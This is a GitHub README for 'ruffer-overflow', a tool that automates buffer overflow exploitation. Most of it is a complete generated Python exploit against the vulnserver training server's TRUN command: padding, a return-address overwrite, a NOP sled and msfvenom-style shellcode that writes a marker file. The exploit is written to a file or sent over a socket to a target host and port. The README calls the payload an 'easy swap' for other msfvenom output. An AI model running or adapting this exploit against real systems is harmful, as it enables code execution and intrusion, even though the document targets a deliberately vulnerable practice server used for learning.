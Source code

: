 # ruffer-overflow

buffer overflow detection and exploitation tool for VERY low hanging fruit 

----

## example (secureserverind.exe)

note: secureserverind.exe is actually from the [vulnserver project by stephenbradshaw](https://github.com/stephenbradshaw/vulnserver) 
this command line interaction generates a python file designed to exploit a buffer overflow
![example](/examples/secureserverind.exe/command_line_output.png)

``` python3
#!/usr/bin/python3

# generated by ruffer-overflow [2020-07-28 18:49:51.755495]

#region targeting
BASE_ADDRESS = "62501060" # base address of essfunc.dll
GENERATE_EXPLOIT_FILE = True
EXPLOIT_FILE = "exploit.bin"
EXECUTE_EXPLOIT = False
TARGET_ADDRESS = "192.168.150.245" # target host
TARGET_PORT = "9999" # exposed port on the target host
#endregion

#region imports
import struct
import socket
#endregion

#region payload
buf =  b''
buf += b'TRUN /.:/'
buf += b'A' * 2003
buf += struct.pack("<I", (int(BASE_ADDRESS, 16) + 576)) # little endian pack
buf += b'\x90' * 10 # safety nops

# payload (easy swap from msfvenom)
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
buf += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += b"\xff\xd5\x65\x63\x68\x6f\x20\x22\x6e\x6f\x20\x73\x74"
buf += b"\x61\x6e\x64\x61\x72\x64\x73\x22\x20\x3e\x20\x63\x6f"
buf += b"\x6d\x70\x72\x6f\x6d\x69\x73\x65\x2e\x74\x78\x74\x00"
#endregion

#region generate file
if GENERATE_EXPLOIT_FILE:
    with open(EXPLOIT_FILE, "wb") as exploit_file:
        exploit_file.write(buf)
#endregion

#region execute
if EXECUTE_EXPLOIT:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET_ADDRESS, TARGET_PORT))
    print(s.recv(2048))
    s.send(buf)
    print(s.recv(2048))
    s.close()
#endregion

```
